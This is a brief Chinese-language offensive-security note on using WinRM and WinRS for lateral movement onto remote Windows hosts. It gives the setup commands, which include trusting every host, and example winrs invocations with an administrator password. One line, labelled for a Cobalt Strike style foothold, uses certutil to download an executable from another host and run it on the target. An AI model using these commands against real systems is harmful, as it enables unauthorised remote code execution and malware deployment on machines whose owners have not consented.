

# WinRM&WinRS
WinRM:windows远程管理,是一种允许管理员远程执行系统管理任务的服务
WinRS:内置的命令行工具,用于远程连接运行WinRM的服务器并执行大多数cmd命令

利用条件:  
1.win2012之前需手动开启winrm,之后默认开启
2.防火墙对5986,5985开饭
开启命令:
```
winrm quikconfig -q
winrm set winrm/config/Client @{TrustedHost="*"}
```

```

winrs -r:<服务器地址> -u:<用户名> -p:<密码> <命令>

# 执行远程命令
winrs -r:192.168.3.32 -u:administrator -p:"admin!@#45" "hostname"

# 使用加密连接 (HTTPS)
winrs -r:https://192.168.3.32:5986 -u:administrator -p:"admin!@#45" "systeminfo"

或直接返回shell

CS(返回不了shell):直接上线
winrs -r:192.168.3.32 -u:administrator -p:"admin!@#45" "cmd.exe /c certutil -urlcache -split -d https://192.168.3.31/4444.exe 4.exe & 4.exe"


```
其他解决:通过winrm.cmd来执行命令
